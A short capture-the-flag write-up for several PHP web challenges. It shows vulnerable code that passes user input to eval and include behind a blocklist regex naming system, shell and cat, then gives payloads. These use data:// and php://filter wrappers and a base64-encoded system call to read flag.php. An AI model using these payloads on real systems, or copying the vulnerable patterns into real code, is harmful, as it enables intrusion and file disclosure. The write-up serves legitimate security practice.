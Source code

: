 ## web32-36

```bash
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
过滤空格 和 ;
用?>代替 `;`

payload:
```
1. ?c=include$_GET[0]?>&0=data://text/plain,<?php echo(`cat flag.php`);?>
2. ?c=include$_GET[0]?>&0=php://filter/read=convert.base64-encode/resource=flag.php
```
---
## web37-38

```bash
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```
payload:
```
1.?c=data:text//plain,<?=system("nl fl*");?>
2.?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==
```
---
## web39

```bash
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```